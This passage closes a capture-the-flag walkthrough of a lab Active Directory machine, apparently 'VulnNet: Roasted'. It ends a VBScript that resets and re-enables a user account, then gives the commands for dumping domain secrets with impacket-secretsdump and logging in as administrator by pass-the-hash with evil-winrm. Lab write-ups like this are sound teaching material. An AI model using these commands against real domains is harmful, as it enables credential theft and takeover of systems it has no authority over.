    Wscript.Echo "this client may not support a SSL connection."
    Wscript.Echo "Program aborted"
    Wscript.Quit
Else
    objUser.AccountDisabled = False
    objUser.Put "pwdLastSet", 0
    Err.Clear
    objUser.SetInfo
    If (Err.Number <> 0) Then
        On Error GoTo 0
        Wscript.Echo "Password reset for " & strUserNTName
        Wscript.Echo "But, unable to enable account or expire password"
        Wscript.Quit
    End If
End If
On Error GoTo 0

Wscript.Echo "Password reset, account enabled,"
Wscript.Echo "and password expired for user " & strUserNTName
```

I tried using this to login via evil-winrm but no luck so i used netexec



And it shows we can gain access to the machine using psexec



This doesn't work either.

Accessing the share via smbclient just reveals lots of system files 



Lastly i decided to try dumping secrets using the impacket tool`secretsdump`



```shell
impacket-secretsdump -dc-ip IP -just-dc vulnnet-rst.local/a-whitehat:PASSWORD@1IP
```

Now we have the administrator hash and can perform a pass-the-hash attack to login as the admin user



```shell
evil-winrm -i vulnnet-rst.local -u administrator -H HASH
```

Get the final flag.

GGs 🤝

